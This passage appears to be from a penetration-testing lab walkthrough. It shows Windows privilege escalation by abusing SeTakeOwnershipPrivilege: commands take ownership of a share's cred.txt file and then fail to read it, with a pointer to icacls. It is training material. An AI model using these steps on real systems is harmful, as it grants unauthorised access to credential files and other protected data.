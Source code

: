     PRIVILEGES INFORMATION
    ----------------------
    Privilege Name                Description                              State
    ============================= ======================================== =======
    SeTakeOwnershipPrivilege      Take ownership of files or other objects Enabled
    SeChangeNotifyPrivilege       Bypass traverse checking                 Enabled
    SeIncreaseWorkingSetPrivilege Increase a process working set           Enabled
    ```
    2. Checking File Ownership
    ```powershell
    PS C:\htb> cmd /c dir /q 'C:\Department Shares\Private\IT'

    Volume in drive C has no label.
    Volume Serial Number is 0C92-675B
    
    Directory of C:\Department Shares\Private\IT
    
    06/18/2021  12:22 PM    <DIR>          WINLPE-SRV01\sccm_svc  .
    06/18/2021  12:22 PM    <DIR>          WINLPE-SRV01\sccm_svc  ..
    06/18/2021  12:23 PM                36 ...                    cred.txt
                1 File(s)             36 bytes
                2 Dir(s)  17,079,754,752 bytes free
    ```
    3. Taking Ownership of the File
    ```powershell
    PS C:\htb> takeown /f 'C:\Department Shares\Private\IT\cred.txt'
    
    SUCCESS: The file (or folder): "C:\Department Shares\Private\IT\cred.txt" now owned by user "WINLPE-SRV01\htb-student".
    ```
    4. Confirming Ownership Changed
    ```powershell
    PS C:\htb> Get-ChildItem -Path 'C:\Department Shares\Private\IT\cred.txt' | select name,directory, @{Name="Owner";Expression={(Get-ACL $_.Fullname).Owner}}
    
    Name     Directory                       Owner
    ----     ---------                       -----
    cred.txt C:\Department Shares\Private\IT WINLPE-SRV01\htb-student
    ```
    5. Modifying the File ACL: We may still not be able to read the file and need to modify the file ACL using icacls to be able to read it.
    ```powershell
    PS C:\htb> cat 'C:\Department Shares\Private\IT\cred.txt'

    cat : Access to the path 'C:\Department Shares\Private\IT\cred.txt' is denied.
    At line:1 char:1
    + cat 'C:\Department Shares\Private\IT\cred.txt'
    + ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
        + CategoryInfo          : PermissionDenied: (C:\Department Shares\Private\IT\cred.txt:String) [Get-Content], Unaut
    horizedAccessException
        + FullyQualifiedErrorId : GetContentReaderUnauthorizedAccessError,Microsoft.PowerShell.Commands.GetContentCommand

